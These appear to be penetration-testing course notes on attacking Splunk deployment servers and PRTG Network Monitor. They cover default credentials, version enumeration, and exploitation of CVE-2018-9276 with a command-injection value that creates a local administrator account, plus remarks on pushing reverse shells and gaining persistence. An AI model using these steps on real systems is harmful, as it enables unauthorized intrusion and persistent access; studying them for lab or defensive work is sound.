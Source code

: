 If the compromised Splunk host is a deployment server, it will likely be possible to achieve RCE on any hosts with Universal Forwarders installed on them. To push a reverse shell out to other hosts, the application must be placed in the `$SPLUNK_HOME/etc/deployment-apps` directory on the compromised host. In a Windows-heavy environment, we will need to create an application using a PowerShell reverse shell since the Universal forwarders do not install with Python like the Splunk server.


## PRTG Network Monitor

### Discovery/Footprinting/Enumeration
Can typically be found on common web ports such as 80, 443, or 8080

#### Using nmap to scan for PRTG
```Shell
nmap -sV -p- --open -T4 10.129.201.50
```

The default credentials are `prtgadmin:prtgadmin` and are often unchanged

#### Using cURL to enumerate the version number
```Shell
curl -s http://10.129.201.50:8080/index.htm -A "Mozilla/5.0 (compatible;  MSIE 7.01; Windows NT 5.0)" | grep version
```
Version `17.3.33.2830` is vulnerable to CVE-2018-9276 which is an authenticated command injection in the PRTG System Administrator web console for PRTG Network Monitor

### CVE-2018-9276 

#### Mouse over `Setup` in the top right and then the `Account Settings` menu and finally click on `Notifications`
![[Pasted image 20230221150716.png]]

#### Click on `Add new notification`
![[Pasted image 20230221150736.png]]

#### - Give the notification a name and scroll down and tick the box next to `EXECUTE PROGRAM`
#### - Under Program File, select `Demo exe notification - outfile.ps1` from the drop-down
#### - Enter a command in the parameter field
####     -- add a new local admin user by entering
```Shell
test.txt;net user prtgadm1 Pwn3d_by_PRTG! /add;net localgroup administrators prtgadm1 /add
```
#### - Click `Save`
![[Pasted image 20230221151002.png]]

#### You will be redirected to the `Notifications` page and see the new notification named `pwn` in the list
![[Pasted image 20230221151057.png]]
We could have scheduled the notification to run (and execute our command) at a later time when setting it up. This could prove handy as a persistence mechanism during a long-term engagement and is worth taking note of. Schedules can be modified in the account settings menu if we want to set it up to run at a specific time every day to get our connection back or something of that nature
